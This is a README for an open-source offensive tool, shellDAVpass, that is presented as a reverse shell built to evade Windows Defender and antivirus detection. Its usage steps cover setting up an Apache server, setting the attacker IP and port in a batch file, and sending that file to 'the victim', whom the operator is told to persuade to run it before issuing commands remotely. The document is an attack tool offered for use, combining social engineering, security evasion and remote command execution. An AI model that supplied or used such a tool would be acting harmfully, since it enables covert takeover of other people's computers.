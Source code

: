 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. cd shellDAVpass
6. nano shellDAVpass.bat
7. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
8. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
9. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
10. Launch the command prompt
  bash bash shellDAVpass.sh
11. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/sheeldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/sheeldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/12/AutoSUID_Video.gif)

Screenshots:
------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/11/AutoSUID.png)
